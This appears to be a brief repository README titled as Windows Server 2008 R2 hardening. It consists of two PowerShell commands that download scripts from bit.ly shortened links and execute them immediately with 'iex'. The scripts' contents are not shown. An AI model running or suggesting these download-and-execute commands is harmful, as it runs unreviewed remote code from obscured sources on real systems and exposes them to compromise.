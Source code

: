 # 2008_R2_Hardening
powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('https://bit.ly/2QnDanB')"
powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('https://bit.ly/2Fk5hgU')"
